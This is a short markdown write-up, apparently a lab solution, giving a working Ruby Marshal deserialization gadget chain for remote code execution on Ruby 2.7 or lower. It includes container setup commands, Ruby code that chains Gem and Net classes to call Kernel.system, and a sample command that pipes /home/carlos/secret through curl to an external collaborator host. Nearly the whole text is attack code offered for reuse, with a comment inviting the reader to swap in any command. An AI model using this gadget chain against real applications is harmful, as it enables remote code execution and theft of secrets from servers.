

# Ruby deserialization using a documented gadget chain (ruby rce exploit)

We create a container with Ruby version 2.7 or lower.

```
docker run -it --rm ruby:2.7 bash
apt update
apt install nano
```


```ruby
require 'base64'

Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "cat /home/carlos/secret | curl -X POST --data-binary @- http://<BURP-COLAB>/?hii")   # change for command desired

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```


```bash
ruby des.ruby | tr -d '\n' ;echo
```

